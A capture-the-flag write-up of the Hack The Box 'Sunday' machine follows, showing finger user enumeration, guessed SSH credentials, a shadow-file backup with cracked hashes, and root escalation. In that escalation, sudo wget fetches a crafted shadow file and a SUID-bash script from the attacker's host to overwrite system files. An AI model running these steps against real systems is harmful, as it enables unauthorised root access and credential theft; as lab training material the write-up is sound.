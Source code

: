 ```yaml
---
"title": "Hack The Box - Sunday"
"date": 2020-07-24
"tags": ["linux", "medium", "finger", "wget", "sudo", "SUID"]
"keywords": ["linux", "medium", "finger", "wget", "sudo", "SUID"]
"categories": ["HackTheBox OSCP-Like"]
"author": "Ghostbyt3"
"description": "Getting Initial is by gathering usernames from Finger service and gusesing the password gives use user shell and We need to find backup shadow file to get user sammy's password and privilege escalation is by SUID."
"featured_image": "/img/htb-sunday/Untitled.png"
"layout": "single"
"showTableOfContents": true
"authorbox": true
"pager": true
"toc": true
"mathjax": true
"sidebar": "right"
"subtitle": "HackTheBox OSCP-Like - Writeup"
---
```



![Untitled](/img/htb-sunday/Untitled.png)

Getting Initial is by gathering usernames from Finger service and gusesing the password gives use user shell and We need to find backup shadow file to get user sammy's password and privilege escalation is by SUID.

Link: [https://www.hackthebox.eu/home/machines/profile/136](https://www.hackthebox.eu/home/machines/profile/136)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT      STATE  SERVICE VERSION
79/tcp    open   finger
111/tcp   open   rpcbind 2-4 (RPC #100000)
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
```

## Finger Enumeration

### What is Finger?

**A finger service is running on this host. The finger protocol is used to find out information about users on a remote system. Finger servers can usually provide either a list of logged-in users or detailed information on a single user.**

I just downloaded finger-user-enum tool from [Github](https://github.com/pentestmonkey/finger-user-enum). 

![Untitled](/img/htb-sunday/Untitled%201.png)

Here we can see a lot of usernames and only a few have pts and others are TTY

PTS connections are SSH connections

TTY are direct connections to the computer like reverse shell something.

## Getting User Shell

If I tried to login normally, it throws me some error and after adding this argument it worked perfectly. So I tried some default creds and I used the box name as password and Im logged in. `sunny : sunday`

![Untitled](/img/htb-sunday/Untitled%202.png)

## Getting Sammy User Shell

The first thing I did is `sudo -l` and it shows me a binary located in root directory but I can't examine much of it.

```bash
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

While checking through all the folders there is `shadow.backup` file in `/backup` directory and I got sammy user hash.

```bash
sunny@sunday:/$ ls
backup  boot   dev      etc     home    lib         media  net  platform  root   sbin    tmp  var
bin     cdrom  devices  export  kernel  lost+found  mnt    opt  proc      rpool  system  usr
sunny@sunday:/$ cd backup/
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Cracked that using john and the password is `cooldude!`

![Untitled](/img/htb-sunday/Untitled%203.png)

Tried to ssh with `sammy : cooldude!` and Im logged in.

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
Password: 
Last login: Tue Apr 24 12:57:03 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ whoami
sammy
sammy@sunday:~$
```

## Privilege Escalation

Uploaded my enumeration script and it reveals me that `sudo -l` and it seems I can run `wget` as root without any password.

![Untitled](/img/htb-sunday/Untitled%204.png)

So I just created a hash using openssl 

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# openssl passwd -1
Password: 
Verifying - Password: 
$1$9O207kaB$1arg8TyVn3Wuva8gQs.br1
```

And I copied my shadow file and changed the hash with the one I created.

![Untitled](/img/htb-sunday/Untitled%205.png)

Now I tried to overwrite the older one with mine and we need to mention `-O` in wget for the filename, otherwise it will be saved as `shadow1` since there is already a file that exists on that name.

```bash
sammy@sunday:/etc$ sudo /usr/bin/wget http://10.10.14.20:8000/shadow -O shadow
--14:33:07--  http://10.10.14.20:8000/shadow
           => `shadow'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1,009 [application/octet-stream]

100%[=============================================================>] 1,009         --.--K/s             

14:33:08 (169.98 MB/s) - `shadow' saved [1009/1009]

sammy@sunday:/etc$ su root
Password: 
su: Password for user 'root' has expired
New Password: 
Re-enter new Password: 
su: password successfully changed for root
sammy@sunday:/etc# su root
sammy@sunday:/etc# whoami
root
```

Now I can do su to root with the new password. And here it says root password is expired and it asked for a new password so I just entered a new password and Im logged in.

### Another Method

We know there is a binary called `troll` which is located in `/root` directory and user sunny have permission to run that as root without any password, So I just made a small bash script that will copy the bash from `/usr/bash` and paste it in /tmp directory and make it SUID.

```bash
sammy@sunday:/root# sudo /usr/bin/wget http://10.10.14.20:8000/troll -O /root/troll 
--15:20:12--  http://10.10.14.20:8000/troll
           => `/root/troll'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 61 [application/octet-stream]

100%[=======================================================================>] 61            --.--K/s             

15:20:13 (14.32 MB/s) - `/root/troll' saved [61/61]
```

Using wget I just replaced the older one, And we need to be quick here because there is some sort of cron running that replaces the file as fast as possible.

When I executed the binary it created the bash with SUID and I need to mention -p while running it because -p mentions run it as an effective user ID which is root.

```bash
sunny@sunday:/tmp$ sudo /root/troll
sunny@sunday:/tmp$ ls
bash  ogl_select254
sunny@sunday:/tmp$ ./bash -p
bash-3.2# whoami
root
bash-3.2#
```

We own the box